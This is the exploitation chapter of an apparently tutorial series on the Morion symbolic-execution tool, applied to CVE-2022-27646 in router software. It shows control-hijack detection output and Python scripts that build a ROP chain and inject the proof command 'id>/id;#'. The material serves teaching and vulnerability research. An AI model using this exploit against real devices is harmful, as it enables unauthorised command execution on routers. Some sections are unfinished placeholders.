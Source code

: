 # Table of Contents
1. [Setup](./1_setup.md)
2. [Emulation](./2_emulation.md)
3. [Vulnerability CVE-2022-27646](./3_vulnerability.md)
4. [Tracing](./4_tracing.md)
5. [Symbolic Execution](./5_symbex.md)
6. [Exploitation](./6_exploitation.md#exploitation)
<!--TODO--------------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------------------->
# Exploitation
<figure>
  <img src="../images/Memory_Layout-PoV.svg" alt="Memory Layout PoV"/>
  <figcaption>
    Fig. 1: Memory Layout - Showing the stack layout for the proof-of-vulnerability (PoV) payload.
  </figcaption>
</figure>

<figure>
  <img src="../images/ROP_Chain.svg" alt="ROP Chain"/>
  <figcaption>
    Fig. 2: ROP Chain - Showing ...
  </figcaption>
</figure>

## Manual

`morion_control_hijacker --skip_state_analysis circled.yaml`:
```
[...]
[2024-04-10 14:44:53] [DEBG] 0x0000cf1c (ff df 8d e2): add sp, sp, #0x3fc      #
[2024-04-10 14:44:53] [DEBG] 0x0000cf20 (03 db 8d e2): add sp, sp, #0xc00      #
[2024-04-10 14:44:53] [DEBG] 0x0000cf24 (f0 8f bd e8): pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}#                                                 
[...]
[2024-04-10 14:45:01] [WARN] [POST] Potential control hijack due to unrestricted register 'pc'.

                      _                   _          _ _ 
 _ __ ___   ___  _ __(_) ___  _ __    ___| |__   ___| | |
| '_ ` _ \ / _ \| '__| |/ _ \| '_ \  / __| '_ \ / _ \ | |
| | | | | | (_) | |  | | (_) | | | | \__ \ | | |  __/ | |
|_| |_| |_|\___/|_|  |_|\___/|_| |_| |___/_| |_|\___|_|_|
            
Investigate potential control hijack...

Available objects:
- ctx
- ast

Type quit(), exit() or ctrl-d to leave the interpreter.

In [1]: run -i circled.rop1.py
{
  392:  i: 5132,  m: 0xbeffc24c [MODEL:fgets@libc:s+392]:8 = 0xb8,
  393:  i: 5132,  m: 0xbeffc24d [MODEL:fgets@libc:s+393]:8 = 0xc9,
  394:  i: 5132,  m: 0xbeffc24e [MODEL:fgets@libc:s+394]:8 = 0x00,
  395:  i: 5132,  m: 0xbeffc24f [MODEL:fgets@libc:s+395]:8 = 0x00
}

In [2]: run -i circled.rop2.py
{
  368:  i: 5132,  m: 0xbeffc234 [MODEL:fgets@libc:s+368]:8 = 0x90
  369:  i: 5132,  m: 0xbeffc235 [MODEL:fgets@libc:s+369]:8 = 0xc2,
  370:  i: 5132,  m: 0xbeffc236 [MODEL:fgets@libc:s+370]:8 = 0xff,
  371:  i: 5132,  m: 0xbeffc237 [MODEL:fgets@libc:s+371]:8 = 0xbe,
  392:  i: 5132,  m: 0xbeffc24c [MODEL:fgets@libc:s+392]:8 = 0xb8,
  393:  i: 5132,  m: 0xbeffc24d [MODEL:fgets@libc:s+393]:8 = 0xc9,
  394:  i: 5132,  m: 0xbeffc24e [MODEL:fgets@libc:s+394]:8 = 0x00,
  395:  i: 5132,  m: 0xbeffc24f [MODEL:fgets@libc:s+395]:8 = 0x00,
  1483: i: 15451, m: 0xbeffc290 [MODEL:fgets@libc:s+460]:8 = 0x69,
  1484: i: 15451, m: 0xbeffc291 [MODEL:fgets@libc:s+461]:8 = 0x64,
  1485: i: 15451, m: 0xbeffc292 [MODEL:fgets@libc:s+462]:8 = 0x3e,
  1486: i: 15451, m: 0xbeffc293 [MODEL:fgets@libc:s+463]:8 = 0x2f,
  1487: i: 15451, m: 0xbeffc294 [MODEL:fgets@libc:s+464]:8 = 0x69,
  1488: i: 15451, m: 0xbeffc295 [MODEL:fgets@libc:s+465]:8 = 0x64,
  1489: i: 15451, m: 0xbeffc296 [MODEL:fgets@libc:s+466]:8 = 0x3b,
  1490: i: 15451, m: 0xbeffc297 [MODEL:fgets@libc:s+467]:8 = 0x23,
  1491: i: 15451, m: 0xbeffc298 [MODEL:fgets@libc:s+468]:8 = 0x00,
  1492: i: 15451, m: 0xbeffc299 [MODEL:fgets@libc:s+469]:8 = 0x00,
  1493: i: 15451, m: 0xbeffc29a [MODEL:fgets@libc:s+470]:8 = 0x00,
  1494: i: 15451, m: 0xbeffc29b [MODEL:fgets@libc:s+471]:8 = 0x00,
  1495: i: 15451, m: 0xbeffc29c [MODEL:fgets@libc:s+472]:8 = 0x00,
  1496: i: 15451, m: 0xbeffc29d [MODEL:fgets@libc:s+473]:8 = 0x00,
  1497: i: 15451, m: 0xbeffc29e [MODEL:fgets@libc:s+474]:8 = 0x00,
  1498: i: 15451, m: 0xbeffc29f [MODEL:fgets@libc:s+475]:8 = 0x00
}
```

[circled.rop1.py](../morion/circled.rop1.py):
```
[...]
# Preconditions gadget 0
g0_sp_val  = ctx.getConcreteRegisterValue(ctx.registers.sp)-9*4
g0_pc_ast  = ctx.getMemoryAst(MemoryAccess(g0_sp_val+8*4, 4))
g0_pc_val  = 0xc9b8

# Solve preconditions
model = ctx.getModel(g0_pc_ast  == g0_pc_val)
pprint(model)
```
[circled.rop2.py](../morion/circled.rop2.py):
```
[...]
# OS command
md5_sum_len = 32
cmd         = "id>/id;#"
cmd_addr    = 0xbeffc104+396

# Preconditions gadget 0
g0_sp_val  = ctx.getConcreteRegisterValue(ctx.registers.sp)-9*4
g0_pc_ast  = ctx.getMemoryAst(MemoryAccess(g0_sp_val+8*4, 4))
g0_pc_val  = 0xc9b8
g0_r6_ast  = ctx.getMemoryAst(MemoryAccess(g0_sp_val+2*4, 4))
g0_r6_val  = cmd_addr
g0__r6_ast = ctx.getMemoryAst(MemoryAccess(cmd_addr, 16))
g0__r6_val = int.from_bytes(bytes(cmd, "UTF-8"), byteorder="little")

# Solve preconditions
model = ctx.getModel(ast.land([
                g0_pc_ast  == g0_pc_val,
                g0_r6_ast  == g0_r6_val,
                g0__r6_ast == g0__r6_val,
            ]))
pprint(model)
```

## Analysis Module morion_rop_generator

## Todo
- Note: The shown exploit could easily be generated without using symbolic execution. However, we
    have chosen it since it is rather easy to follow along and suitable to explain how Morion works.

----------------------------------------------------------------------------------------------------
[Back-to-Top](./6_exploitation.md#table-of-contents)